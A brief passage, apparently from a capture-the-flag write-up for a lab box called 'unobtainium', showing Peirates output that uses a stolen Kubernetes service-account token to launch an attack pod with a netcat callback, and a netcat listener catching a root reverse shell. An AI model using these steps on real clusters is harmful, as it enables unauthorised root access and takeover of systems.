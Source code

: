 ```null
[+] Secret found:  default-token-w22lv
[+] Service account found:  default-token-w22lv

Peirates:># 20
Your IP addresses: 
10.42.0.46
What IP and Port will your netcat listener be listening on?
IP:
10.10.16.6
Port:
443
[+] Using your current pod's image: localhost:5000/node_server
[+] Executing code in attack-pod-yifuqv - please wait for Pod to stage
[+] Netcat callback added sucessfully.
[+] Removing attack pod.
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.235] 45750
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@unobtainium:/usr/src/app# 
```